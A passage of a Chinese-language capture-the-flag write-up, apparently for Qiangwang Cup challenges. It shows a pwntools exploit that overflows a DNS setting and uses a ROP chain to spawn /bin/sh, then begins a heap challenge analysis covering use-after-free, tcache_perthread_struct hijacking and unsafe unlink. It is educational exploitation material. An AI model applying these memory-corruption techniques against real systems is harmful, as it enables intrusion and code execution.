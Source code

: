 ```py
overflow = b'...............................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................11rbp11.'

exec_cmd(b'cert 4ceb539da109caf8eea7')
exec_cmd(b'configure')
exec_cmd(b'set dns ' + overflow + gadget1 + b' 172.22.22.22')
exec_cmd(b'exec ping host ' + overflow + gadget1)

gadget2 = b''
gadget2 += b'/bin/sh\x00'
gadget2 += p64(g_pop_rdi) + p64(free_stack)
gadget2 += p64(g_pop_rax) + p64(0x3b)
gadget2 += p64(g_syscall)

p.sendlineafter(b'DNS lookup failed for', gadget2)
p.interactive()
```

# [](#header-3)pwn heap

这个题在搭建环境时，可能会非常费劲. 由于这个题依赖了 libc 2.31 版本的 libcrypto v1.1.0 库，但是又并没有在附件中包含它，笔者只好自己在 libc 2.31 的 ubuntu 中编译了个 libcrypto v1.1.0 放在这里，读者在使用时只需要将该库链接到本机对应的 libc 2.31 版本即可

[libcrypto.so.1.1](/image/qwbs8/libcrypto.so.1.1)

这个题存在 free 后写入、读出漏洞  
并且程序将会把前 `(len(input) // 16) * 16` 个字节加密，其 aes 密钥为随机生成，但通过 tcache bin 可以直接控制其 aes 密钥堆块并修改密钥，此处笔者不再赘述 

在做题过程中，笔者通过劫持 tcache_perthread_struct 使得做题更方便，读者可以自行选择是否劫持 tcache_perthread_struct，详细劫持方法请查看强网青少年： 
[youth_memory_album (tcache_perthread_struct 劫持)](/强网杯青少年-线上-&-线下-个人题解#pwn-youth_memory_album)

这个题的堆分配使用 safe_malloc 函数，该函数会 check 此时 malloc 的 chunk 地址是否与 heap 同页(即除低地址三字节以外，高地址相同). 

```
heap:        0x000055e400 691000
safe_malloc
tcache_bin1: 0x000055e400 691500 √
tcache_bin2: 0x000055e410 691000 × 不在同页

```

该函数断绝了 tcache bin attack 直接修改目标内存的可能性，只能通过其他方式修改  

首先，已知在 `program + 0x4080` 位置存在一个 BookList 变量，会将用户 malloc 的所有堆地址记录到此，这下正好符合 unsafe unlink 的条件，况且将特定地址写入 BookList 数组中后，可以再继续利用 BookList 往特定地址中写入数据

![qwb](/image/qwbs8/19.png)  
